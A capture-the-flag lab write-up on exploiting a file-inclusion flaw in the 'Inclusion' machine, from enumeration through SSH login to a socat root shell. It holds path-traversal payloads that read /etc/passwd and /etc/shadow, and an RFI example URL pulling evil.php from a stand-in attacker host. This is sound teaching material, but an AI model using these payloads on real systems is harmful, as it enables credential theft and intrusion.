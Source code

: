# INCLUSION

##### Written: 17/05/2021

##### IP Address: 10.10.16.93

<br>

First, I ran a basic nmap scan on the target machine with standard scripts loaded and version enumeration configured. The results are as follows:

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are two services running on the target machine: **ssh** and **http**. For the http server, we can see that the http-title is 'My blog'.

<br>

Let's first check out the http webserver. Navigating to the website in my web browser, I came to this page:

<img style="float: left;" src="screenshots/screenshot2.png">

Before I conducted my happy-path enumeration, I started a Gobuster directory scan to see if I can obtain any hidden directories. The Gobuster command used was:

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

I made sure to include common extensions in my enumeration, such as **.php** and **.js**. I also used Dirbuster's directory-list-2.3-medium.txt as the wordlist.

While the scan was going on, I started to explore the website. First I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried some low-hanging fruit such as visiting **/robots.txt** but those did not result in anything of value.

When I typed something into the search bar on the top right of the webpage and pressed search, I was redirected back to the homepage. Since this CTF room is called 'Inclusion', I'll probably have to carry out some form of **Local File Inclusion attack** using this search field.

At the bottom of the web page, there were three sections dedicated to different paragraphs of text. Looks like they taught us more about Local File Inclusion (LFI) and Remote File Inclusion (RFI) attacks! This will be useful as I currently have no idea what those attacks are. Clicking on the 'View Details' button below the sections brought me to pages with just text in them. I checked the source code for each of these dedicated pages but there was nothing of value.

Time to learn more about LFI and RFI attacks.

<br>

#### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input **'module'** and the value to be the file **'contact.php'**. Of course, it would seem that contact.php is in the same directory as the calling file, and hence the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local **/etc/shadow** file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a .php script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded. The web server will then execute the script:

```
https://example.com/?module=../../../uploads/malicious.php
```

<br>

#### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a url to another web server (controlled by the attacker) to execute malicious code that is hosted on that web server. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

<Br>

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

<img style="float: left;" src="screenshots/screenshot3.png">



<br>

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practiced file inclusion, which means that I could attempt to mount an attack there!

<img style="float: left;" src="screenshots/screenshot4.png">

It seemed that the web server was taking in an input **'name'** and the filename that produced the wall of text shown on the page was called **'hacking'**.

<br>

I'll try to change **'hacking'** to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

<img style="float: left;" src="screenshots/screenshot5.png">

The attack worked! The contents of the /etc/passwd file is displayed by the web server. Next, I'll try if I can read the **/etc/shadow** file. If I can do so, I'll be able to obtain the credentials of users on the machine, such as root.

<img style="float: left;" src="screenshots/screenshot6.png">

Sure enough, I could read the /etc/shadow file, which is great. From the file, I can see that there is a user account called **FalconFeast**. At first, I was going to use **John the Ripper** to crack the password of FalconFeast using the hashed password found in the /etc/shadow file. However, looking closer at the /etc/passwd file, I noticed a comment in the file:

 <img style="float: left;" src="screenshots/screenshot7.png">

On the right, we can see the text **'falconfeast:rootpassword'** Could **'rootpassword'** be the password for falconfeast? 

<br>

To test this, I tried to ssh into falconfeast's account using the password:

<img style="float: left;" src="screenshots/screenshot8.png">

Nice, that was his password after all. 

**With that, I could obtain the user.txt**

<br>

---

Since I'm already in the machine, I could try to escalate my privileges from the inside. Before using a privilege escalation automation script like **linpeas**, I first did some manual enumeration first. 

First, I ran the command

```
sudo -l
```

to see what sudo privileges that falconfeast had.

<img style="float: left;" src="screenshots/screenshot9.png">

Looks like he can run **socat** as root. Next, I went to **GTFOBins** to see if there were any vulnerabilities that I could exploit with this binary.

<br>

After looking through GTFOBins, I decided to use socat to spawn a shell as root

<img style="float: left;" src="screenshots/screenshot10.png">

After running the command above, I managed to spawn a shell as root:

<img style="float: left;" src="screenshots/screenshot11.png">

**With that, I can easily navigate towards root's home directory and obtain root.flag**

